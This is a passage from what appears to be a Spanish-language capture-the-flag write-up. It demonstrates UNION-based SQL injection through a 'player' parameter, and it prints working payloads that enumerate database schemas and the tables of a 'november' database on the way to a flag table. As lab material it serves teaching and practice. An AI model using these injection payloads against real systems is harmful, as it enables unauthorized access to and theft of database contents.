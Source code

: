 `Listamos` todas las `bases de datos` existentes

![](/assets/img/Union/image_11.png)

```
player=' union select group_concat(schema_name) from information_schema.schemata-- - 
```

Listamos las `tablas` de la base de datos `november`

![](/assets/img/Union/image_12.png)

```
player=' union select group_concat(table_name) from information_schema.tables where table_schema='november'-- - 
```

Listamos `columnas` de la tabla `flag`

![](/assets/img/Union/image_13.png)
